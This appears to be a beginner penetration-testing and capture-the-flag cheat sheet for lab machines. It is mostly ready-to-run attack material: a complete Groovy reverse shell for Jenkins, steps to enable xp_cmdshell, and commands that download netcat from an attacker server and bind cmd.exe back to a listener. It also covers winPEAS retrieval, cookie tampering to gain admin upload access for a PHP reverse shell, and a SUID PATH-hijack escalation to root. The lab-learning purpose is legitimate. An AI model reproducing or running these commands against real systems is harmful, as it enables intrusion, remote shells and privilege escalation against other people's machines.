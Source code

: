 # Beginner Pentest Workbook
## Capture the Flag (most common steps, getting started)

# NMAP

nmap -sC -sV {TARGET}
nmap -sC -Pn {TARGET} -- no host discovery


# GOBUSTER

gobuster dir --url {TARGET} --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

# Jenkins

## Groovy Reverse Shell

String host="10.10.15.80";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(), so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); 


# Netcat cmd to listen to the port

nc -lvnp 8000

# SMB - Server machine block

smbclient -L {TARGET} -U Administrator
List the directories

smbclient \\\\{TARGET}\\{DIR} -U Administrator

Access the dir.

smbclient -N -L \\\\{TARGET_IP}\\
-N : No password
-L : This option allows you to look at what services are available on a server


# Impacket

## mssqlclient.py

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

prompt the password we discovered

C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline>console history


python3 psexec.py administrator@{TARGET}
connect to admin account > password needed

### Useful links

https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

## Commands to allow xp_cmdshell on Windows server

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

SQL> xp_cmdshell "whoami"

### Run this on your attacker machine

http.server to upload the netcat executable:
sudo python3 -m http.server 80

netcat on another tty to listen
sudo nc -lvnp 443

### Useful link
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads"

xp_cmdshell "powershell -c pwd"

wget to get on your attacker VM the nc64 executable
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{YOUR_IP}/nc64.exe -outfile nc64.exe"

Now, we can bind the cmd.exe through the nc to our listener:
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {YOUR_IP} 443"


# winPEAS

### Useful link

https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe

On your attacker machine:
python3 -m http.server 80

On the target machine 

powershell
wget http://{YOUR_IP}/winPEASx64.exe -outfile winPEASx64.exe


# Information Disclosure -- Cookies

Example:

http://{TARGET}/cdn-cgi/login/admin.php?content=accounts&id= {CHANGE ID to test for some Info gathering}

Change cookie, example:

role => admin
id => 34322

So we get the access to upload folder

nc -lvnp {PORT} -- port we set on the reverse shell

http://{target}/uploads/php-reverseshell.php

Functional shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

### Common paths

You need to be used to Linux so try to find more privileged users who you can exploit and escalate privileges.
Example we find user jason, so we try to find a way to get into it

su jason > it will prompt you to type the password,
cat * | grep -i passw*
try to find anything useful as passwd or passwords, no case sensitive -i flag on grep will get Password or anything like this.

id
uid=1000(jason) gid=1000(jason) groups=1000(jason),1001(bugtracker)

find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

this file has a SUID > root

SUID 

SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.

### Let's try to exploit it

bugtracker 
> prompts you to type bug ID
try anything,
it will get you the error:

cat: /root/reports/12: No such file or directory

So, it is using the command cat to fetch files

This is exploitable

cd /tmp
echo "/bin/sh" > cat
chmod +x cat
export PATH=/tmp:$PATH

NB: put /tmp before $PATH so the shell will search for cat on our directory first

now execute bugtracker and type: anything on the prompt

you will get inside the /bin/sh as root.
